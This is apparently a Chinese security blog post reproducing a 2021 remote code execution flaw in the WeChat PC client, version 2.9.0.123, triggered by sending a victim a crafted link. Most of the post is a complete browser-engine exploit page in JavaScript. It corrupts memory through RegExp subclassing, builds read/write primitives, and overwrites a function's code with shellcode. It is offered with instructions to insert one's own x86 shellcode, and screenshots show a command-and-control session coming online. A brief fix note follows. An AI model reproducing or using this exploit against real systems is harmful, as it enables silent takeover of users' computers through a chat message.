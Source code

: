 
# 微信 RCE 复现

[↓↓↓](javascript:)  
  
锋刃科技  
  
[↑↑↑](javascript:)

*2021-04-23 12:59*

漏洞概述

攻击者只需要通过微信发送一个特制 web 链接，用户一旦点击链接，微信 PC(windows) 版进程 wechatweb.exe 会加载 shellcode 执行，整个过程无文件落地，无新进程产生，攻击者可以直接获取目标机器权限。

环境搭建

```plain
微信 PC 版本 2.9.0.123
```

  

![图片](assets/1700190815-be2cc6195423d878a11785fd7474dfdd.png)

漏洞复现

生成 payload

![图片](assets/1700190815-9aeca14db308b6e92fb37c5972aa77c2.png)

![图片](assets/1700190815-65259f860672c1aa0f140a897f354c56.png)

将’\\’批量替换成’,0′

再放置 shellcode

![图片](assets/1700190815-62d71206d753f67cdd9104fa13d91caa.png)

![图片](assets/1700190815-15b67da0e64bc242c74d36c723238a11.png)

  

把链接通过微信发送，然后我们点击链接，cs 上线成功。

![图片](assets/1700190815-4cc1fa8628f7c5efb4e9864ff2077607.png)

![图片](assets/1700190815-8516cc1d0c67597f313df25c5b64cba2.png)

源码

```plain
<html>
<head>
<metahttp-equiv="Content-Type"content="text/html;charset=utf-8">
</head>
<h1>test</h1>
<script>
ENABLE_LOG = true;
IN_WORKER = true;
// run calc and hang in a loop
var shellcode = [];//shellcode 替换成自己的 注意是 x86 的

function print(data) {
}
var not_optimised_out = 0;
var target_function = (function (value) {
    if (value == 0xdecaf0) {
        not_optimised_out += 1;
    }
    not_optimised_out += 1;
    not_optimised_out |= 0xff;
    not_optimised_out *= 12;
});
for (var i = 0; i < 0x10000; ++i) {
    target_function(i);
}
var g_array;
var tDerivedNCount = 17 * 87481 - 8;
var tDerivedNDepth = 19 * 19;

function cb(flag) {
    if (flag == true) {
        return;
    }
    g_array = new Array(0);
    g_array[0] = 0x1dbabe * 2;
    return 'c01db33f';
}
function gc() {
    for (var i = 0; i < 0x10000; ++i) {
        new String();
    }
}
function oobAccess() {
    var this_ = this;
    this.buffer = null;
    this.buffer_view = null;

    this.page_buffer = null;
    this.page_view = null;

    this.prevent_opt = [];

    var kSlotOffset = 0x1f;
    var kBackingStoreOffset = 0xf;

    class LeakArrayBuffer extends ArrayBuffer {
        constructor() {
            super(0x1000);
            this.slot = this;
        }
    }

    this.page_buffer = new LeakArrayBuffer();
    this.page_view = new DataView(this.page_buffer);

    new RegExp({ toString: function () { return 'a' } });
    cb(true);

    class DerivedBase extends RegExp {
        constructor() {
            // var array = null;
            super(
                // at this point, the 4-byte allocation for the JSRegExp `this` object
                // has just happened.
                {
                    toString: cb
                }, 'g'
                // now the runtime JSRegExp constructor is called, corrupting the
                // JSArray.
            );

            // this allocation will now directly follow the FixedArray allocation
            // made for `this.data`, which is where `array.elements` points to.
            this_.buffer = new ArrayBuffer(0x80);
            g_array[8] = this_.page_buffer;
        }
    }

    // try{
    var derived_n = eval(`(function derived_n(i) {
        if (i == 0) {
            return DerivedBase;
        }

        class DerivedN extends derived_n(i-1) {
            constructor() {
                super();
                return;
                ${"this.a=0;".repeat(tDerivedNCount)}
            }
        }

        return DerivedN;
    })`);

    gc();


    new (derived_n(tDerivedNDepth))();

    this.buffer_view = new DataView(this.buffer);
    this.leakPtr = function (obj) {
        this.page_buffer.slot = obj;
        return this.buffer_view.getUint32(kSlotOffset, true, ...this.prevent_opt);
    }

    this.setPtr = function (addr) {
        this.buffer_view.setUint32(kBackingStoreOffset, addr, true, ...this.prevent_opt);
    }
    this.read32 = function (addr) {
        this.setPtr(addr);
        return this.page_view.getUint32(0, true, ...this.prevent_opt);
    }
    this.write32 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint32(0, value, true, ...this.prevent_opt);
    }
    this.write8 = function (addr, value) {
        this.setPtr(addr);
        this.page_view.setUint8(0, value, ...this.prevent_opt);
    }
    this.setBytes = function (addr, content) {
        for (var i = 0; i < content.length; i++) {
            this.write8(addr + i, content[i]);
        }
    }
    return this;
}
function trigger() {
    var oob = oobAccess();
    var func_ptr = oob.leakPtr(target_function);
    print('[*] target_function at 0x' + func_ptr.toString(16));
    var kCodeInsOffset = 0x1b;
    var code_addr = oob.read32(func_ptr + kCodeInsOffset);
    print('[*] code_addr at 0x' + code_addr.toString(16));
    oob.setBytes(code_addr, shellcode);
    target_function(0);
}
try{
    print("start running");
    trigger();
}catch(e){
    print(e);
}
</script>
</html>
```

   

修复建议

官方下载链接：

```plain
https://dldir1.qq.com/weixin/Windows/WeChatSetup.exe
```

